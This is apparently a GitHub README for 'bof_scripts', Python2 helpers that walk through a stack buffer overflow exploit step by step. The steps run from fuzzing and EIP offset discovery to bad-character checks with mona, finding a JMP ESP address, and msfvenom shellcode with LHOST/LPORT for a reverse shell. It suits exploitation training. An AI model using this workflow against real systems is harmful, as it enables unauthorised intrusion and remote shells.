 # bof_scripts
Python2 scripts for Stack Buffer Overflows

## Dependencies
1. msfvenom
2. python2
3. pattern_offset.rb
4. Immunity Debugger with Mona,py

## Usage

1. `git clone https://github.com/thirdbyte/bof_scripts`
2. `cd bof_scripts`
3. `chmod +x *`

### Initialization

1. Set `RHOST` and `RPORT` in `config.py` according to the target

### 1_fuzz.py

1. Modify `config.py` to have a working `connect` function
2. `./1_fuzz.py`
3. Update `BUFT` in `config.py` to be slightly larger than the crashed bytes.

### 2_find_offset.py

1. `./2_find_offset.py`
2. Copy the `EIP` address and find the `OFFSET` with `./pattern_offset.rb -q EIP_ADDRESS`

### 3_confirm_offset.py

1. Modify `OFFSET` of `config.py` to have the value found in the previous step
2. `./3_confirm_offset.py`
3. `ESP` should point to `CCCC`. If not, keep modifying `NO_B`, `NO_C` and `NO_Z` in `config.py`.

### 4_badchars.py

1. Modify `config.py` and make sure that initially, `BADCHARS=[0x00,0x0A]`
2. `./4_badchars.py`
3. Copy `bad.bin` generated to target machine
4. In debugger, execute `!mona compare -a esp -f c:\path\to\bad.bin`
5. Again modify `config.py` to add additional `BADCHARS`

### 5_jmp_esp.py

1. Find a suitable `\xff\xe4` address
2. Modify `JMPESP` in `config.py`
3. `./5_jmp_esp.py`
4. Observe debugger for `INT 3` in disassembler

### 6_shellcode.sh

1. `/6_shellcode.sh '<BADCHARS>' <LHOST> <LPORT>` where `BADCHARS` must be in form of `\x00\x0A..`

### 7_exploit.py 

1. `./7_exploit.py`
